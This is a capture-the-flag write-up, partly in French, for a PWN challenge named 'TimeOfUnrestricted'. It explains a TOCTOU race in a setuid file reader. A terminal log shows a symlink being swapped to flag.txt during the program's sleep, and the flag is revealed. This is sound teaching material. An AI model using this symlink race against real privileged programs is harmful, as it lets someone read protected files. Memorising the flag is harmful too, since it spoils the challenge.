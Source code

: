 # TimeOfUnrestricted
## <u>**CatÃ©gorie**</u>

PWN

## <u>**Description**</u> :

Noiche created a PoC for some file access control, and you got hired as his intern.
You are in charge of evaluating the security of his PoC, so he left a flag.txt on the disk.
Try to read the file, proving him that his PoC need some extra-work :)

FORMAT DU FLAG : flag.txt dans le docker, lisibile après exploitation du service, MCTF{...}

ACCES AU CHALLENGE :

Code source fourni + docker en remote.

## <u>Hints</u> 

ACCESS(2) Control :o

## <u>Auteur</u> 

Noiche

## <u>Solution</u> :

Il existe ici une Race Condition de type TOCTOU, en effet il se passe un certain délai entre le moment où le programme vérifie les droits d'accès au fichier et le moment où il l'ouvre pour le lire. Il est possible d'utiliser un lien symbolique pointant vers un fichier disponible à la lecture pour bypass le check de permissions, puis d'éditer le lien symbolique pour le faire pointer vers le fichier flag.txt avant l'ouverture du fichier.

Exemple :

```bash
 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ls
flag.txt  myFile.txt  src.c  symlink  TimeOfUnrestricted  WU.md

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ll flag.txt TimeOfUnrestricted 
1197532 4.0K -rw------- 1 superuser kali  34 Apr  8 12:25 flag.txt
1179717  20K -rwsr-sr-x 1 superuser kali 17K Apr  8 12:33 TimeOfUnrestricted

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ll symlink
1179790 0 lrwxrwxrwx 1 kali kali 12 Apr  8 12:34 symlink -> ./myFile.txt

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ./TimeOfUnrestricted ./flag.txt 
 [...]
 [Error] File not found / Permission denied : read(./flag.txt)

 ✘ kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ./TimeOfUnrestricted ./myFile.txt 
 [...]
 [Result] Here is the content of the file ./myFile.txt : This is my file

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ./TimeOfUnrestricted ./symlink   
 [...]

 # Pendant l'exécution (au moment du sleep), on utilise la commande ln -sf ./flag.txt symlink
 # L'ouverture du fichier sera donc exécutée avec comme filename "./flag.txt", en bénéficiant de l'EUID
  
 [Result] Here is the content of the file ./symlink : MCTF{Sh0uld_1_ch3ck_f0r_sYml1nk?}
```

##**Flag : MCTF{Sh0uld_1_ch3ck_f0r_sYml1nk?}**

